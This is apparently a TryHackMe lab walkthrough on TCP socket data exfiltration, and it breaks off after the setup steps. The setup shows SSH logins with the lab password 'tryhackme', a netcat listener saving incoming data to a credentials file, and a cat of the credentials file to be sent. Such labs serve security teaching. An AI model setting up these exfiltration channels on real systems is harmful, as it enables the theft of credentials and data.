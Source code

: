 It is recommended to connect via SSH to the Jumpbox machine, and perform the rooms exercises from there. 

The room's author also suggests using `tmux` to manage the SSH connections needed. Another way, is to first connect to Jumpbox via SSH, then open a new terminal tab, connect to Jumpbox again, and from there connect to the required machine, e.g. `victim1`.

## 3. TCP Socket Data Exfiltration

This method is **easy to detect** as it relies on non-standard protocols, so it is only used when the attacker knows that they are no network-based security products. 

1. Let's start by sending some data over TCP. Open a listener on the Jumpbox machine, and store any received data on `/tmp/` as `task4-creds.data`:

    ```shell
    # connect to Jumpbox via SSH
    ssh thm@10.10.82.111
    # password: tryhackme

    # open a netcat listener on port 8080
    nc -lvp 8080 > /tmp/task4-creds.data
    ```

2. Connect to the target that has the data we want to transmit, `victim1`:

    ```shell
    # on a new terminal tab connect to Jumpbox again
    ssh thm@10.10.82.111
    # password: tryhackme

    # connect via Jumpbox to victim1 via the domain
    ssh thm@victim1.thm.com
    # or via its ip and port
    ssh thm@10.10.82.98 -p 2022
    # password: tryhackme

    # the data need to be transmitted
    cat task4/creds.txt
    ```
